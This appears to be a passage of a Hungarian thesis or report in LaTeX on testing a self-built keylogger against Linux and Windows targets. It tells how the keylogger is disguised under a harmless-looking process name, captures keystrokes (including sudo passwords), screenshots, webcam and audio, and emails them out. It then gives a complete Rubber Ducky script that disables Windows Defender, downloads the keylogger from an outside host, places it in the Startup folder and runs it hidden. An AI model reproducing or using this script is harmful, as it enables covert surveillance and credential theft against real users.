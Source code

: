 \documentclass[12pt,a4paper,oneside]{report}
\begin{document}
\subsection{Linux rendszer}
A Linux rendszeren való tesztelés során hasonló az eljárás, mint a Windows rendszeren való tesztelés során. Előszőr elindítjuk a szervert a Hacker oldalon és letöltjük a futtatható állományt a Target oldalon. Ez után elindítjuk a Hacker oldalon a szoftvert, és várjuk, hogy elinduljon a Target oldalon a keylogger. Az ábra \ref{fig:linuxPC1} mutatja az elindult keyloggert, amelynek azt a nevet adtuk, hogy \textit{UpdateLinux}. Így kevésbé feltűnő az, hogy egy nem kívánt alkalmazás fut a Target rendszerén.
\begin{figure}[H]
\centering
\includegraphics[width=450pt]{../images/linuxPC1}
\caption{Listázott folyamatok Linux rendszeren}
\label{fig:linuxPC1}
\end{figure}

A keylogger elvégzi a feladatát, tehát képes a lenyomott billentyűket elfogni, képernyőképet készíteni, webkameraképet készíteni, hangfelvételt készíteni és emailt küldeni, ha a ZeroMQ kapcsolat megszakadt.

A lenyomott billentyűk elfogása során azt is észrevettük, hogy az adminisztrátor jogosultsággal levő felhasználók jelszavát el lehet fogni, ha olyan aktivitást folyatnak, amely ifényli a felhasználó jelszavát (például a korábban említett \textit{sudo -l} parancs végrehajtása). Megjegyzés: ebben az esetben nem szolgálhatok képekkel, mert megjelenne az aktuális jelszavam.

\subsection{Ducky szkript}
A Rubber Ducky szkript generálásához létezik egy weboldal, amelyen a megírt kódból bináris állomány készül: https://ducktoolkit.com/encode. Ezt az oldalt használva a \textit{Ducky Code} részlet alatt megírjuk az alábbi kódot:
\begin{lstlisting}{language=PowerShell}
REM Disable Windows Defender with PowerShell
DELAY 1000
GUI r
DELAY 200
STRING powershell saps powershell -A 'Set-MpPreferences -DisableRea $true' -V runAs
ENTER
DELAY 200
LEFTARROW
ENTER
REM Download the keylogger
DELAY 1000
GUI r
DELAY 200
STRING powershell saps powershell
ENTER
DELAY 200
STRING powershell -windowstyle hidden {iwr 'http://keylogger.3utilities.com:777/CTF Loader2.exe' -o 'CTF Loader2.exe';cp 'CTF Loader2.exe' 'Appdata\Roaming\Microsoft\Windows\Start Menu\Programs\Startup';saps '.\CTF Loader2.exe'}
ENTER
\end{lstlisting}
A fenti kód gyakorlatilag a billentyűzet billentyűkombinációit és a billentyűzettel való műveleteket írja le. Ez a kód Windows rendszerre készült. A UNIX rendszereken más billentyűkombinációkat és parancsokat kell megadni (például a ``GUI r'' helyett ``GUI space'' kell).
\end{document}

